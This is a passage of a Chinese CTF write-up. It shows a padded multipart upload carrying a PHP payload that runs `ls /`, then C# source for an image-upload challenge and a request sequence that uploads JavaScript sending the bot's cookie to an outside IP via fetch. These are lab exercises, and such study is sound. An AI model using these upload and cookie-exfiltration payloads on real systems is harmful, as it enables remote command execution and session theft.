111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111<?=`ls /`;?>
------WebKitFormBoundarypi7tV2kg59hDCezH--

```

上传完成之后访问得到结果



## **XSS?**

进来发现可以上传文件，那么应该是写一个js，并且是有源码的

```csharp
using System.Globalization;
using Microsoft.AspNetCore.Http.HttpResults;
using Microsoft.AspNetCore.Mvc;
using Microsoft.AspNetCore.StaticFiles;
using PuppeteerSharp;

var builder = WebApplication.CreateSlimBuilder(args);
var app = builder.Build();

List<ImageInfo> images = [
    new("4e668ad2-14bd-4d28-b8f7-6572b8b3e77b", "1.jpg", "Material"),
    new("3369e70b-b2d1-41db-8d0a-d78037bb8c52", "2.jpg", "White")
];

IBrowser? browser = null;
IPage? page = null;


app.MapGet("/", async () =>
    Results.Content(
        await File.ReadAllTextAsync("wwwroot/index.html")
        , "text/html")
);

app.MapGet("/static/{*path}",async ([FromRoute] string path) =>
{
    if (path.ToLower(CultureInfo.InvariantCulture).Contains("flag"))
        return Results.BadRequest();
    
    if (!File.Exists($"wwwroot/static/{path}"))
        return Results.NotFound();
    
    var provider = new FileExtensionContentTypeProvider();
    if (!provider.TryGetContentType(path, out var contentType))
    {
        contentType = "application/octet-stream";
    }
    return Results.Content(await File.ReadAllTextAsync($"wwwroot/static/{path}"),contentType);
});
app.MapGet("/upload", async () =>
    Results.Content(
        await File.ReadAllTextAsync("wwwroot/upload.html")
        , "text/html")
);

app.MapPost("/report/{id:guid}", async (Guid id) =>
{
    var image = images.FirstOrDefault(i => i.Id == id.ToString());
    if (image == null)
        return Results.NotFound("Image not found");
    if (browser is null)
    {
        browser = await Puppeteer.LaunchAsync(new LaunchOptions
        {
            ExecutablePath = "/usr/bin/chromium",
            Headless = true,
            Args = [
                "--no-sandbox", 
                "--disable-dev-shm-usage",
                "--disable-gpu",
                "--disable-extensions",
                "--disable-software-rasterizer",
                "--disable-setuid-sandbox",
                "--ignore-certificate-errors",
                "--media-cache-size=1",
                "--disk-cache-size=1"
            ]
        });
    }
    if (page is null)
    {
        page = await browser.NewPageAsync();
    }
    var flag = File.Exists("/flag") ? (await File.ReadAllTextAsync("/flag")).Trim() : "flag{no_flag}";
    await page.SetCookieAsync(new CookieParam()
    {
        Name = "flag",
        Value = flag,
        Domain = "localhost",
        Path = "/"
    });
    await page.GoToAsync($"http://localhost/#{image.Id}", 5000);
    return Results.Ok("Beautiful image reported");
});

app.MapPost("/images", async ([FromForm] IFormFile file, [FromForm] string description) =>
{
    if (file.Length > 0)
    {
        var ext = Path.GetExtension(file.FileName);
        var name = Guid.NewGuid().ToString("N") + ext;
        var filePath = Path.Combine("wwwroot/uploads", name);
        using (var stream = new FileStream(filePath, FileMode.Create))
        {
            await file.CopyToAsync(stream);
        }
        var info = new ImageInfo(Guid.NewGuid().ToString(), name, description);
        images.Add(info);
        return Results.Created($"/images/{name}", info);
    }
    return Results.BadRequest();


}).DisableAntiforgery();

app.MapGet("/images", () => Results.Json(images));

app.MapGet("/images/{filename}", ([FromRoute] string filename) =>
{
    if (filename.Contains(".."))
        return Results.BadRequest();
    var filePath = Path.Combine("wwwroot/uploads", filename);
    if (!File.Exists(filePath))
        return Results.NotFound();
    
    var provider = new FileExtensionContentTypeProvider();
    if (!provider.TryGetContentType(filename, out var contentType))
    {
        contentType = "application/octet-stream";
    }
    return Results.Bytes(File.ReadAllBytes(filePath), contentType);
});

app.MapDelete("/images/{id}", (string id) =>
{
    var image = images.FirstOrDefault(i => i.Id == id);
    if (image == null)
        return Results.NotFound("Image Not Found");
    
    var filePath = Path.Combine("wwwroot/uploads", image.FileName);
    if (File.Exists(filePath))
        File.Delete(filePath);
    
    images.Remove(image);
    return Results.Ok();
});

app.Run("http://*:8081");


record ImageInfo(string Id, string FileName, string Description);
```

源码在这里但是我没有看懂，算了等赛后问问kengwang师傅吧

依次发包

```http
POST /images HTTP/1.1
Host: gamebox.yunyansec.com:11703
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykT3DhsMTSIGCbUqh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 141

------WebKitFormBoundarykT3DhsMTSIGCbUqh
Content-Disposition: form-data; name="description"

payload
------WebKitFormBoundarykT3DhsMTSIGCbUqh
Content-Disposition: form-data; name="file"; filename="abc.js"
Content-Type: text/javascript

fetch('https://27.25.151.48:9999/?'+document.cookie);
------WebKitFormBoundarykT3DhsMTSIGCbUqh--

```

```http
GET /images HTTP/1.1
Host: gamebox.yunyansec.com:11703

```

```http
GET /static/main.js#aaa/../../images/<the_name_to_uploaded_file>.js HTTP/1.1
Host: gamebox.yunyansec.com:11703

```

```http
POST /report/<the_id_of_uploaded_file> HTTP/1.1
Host: gamebox.yunyansec.com:11703

```

# 0x03 小结

第一次出题，感觉还挺好的，刚开始进群的时候发现全都是比我厉害的师傅，我话都不敢说，幸好有P爹嘿，当然在这里和一些师傅也更熟了
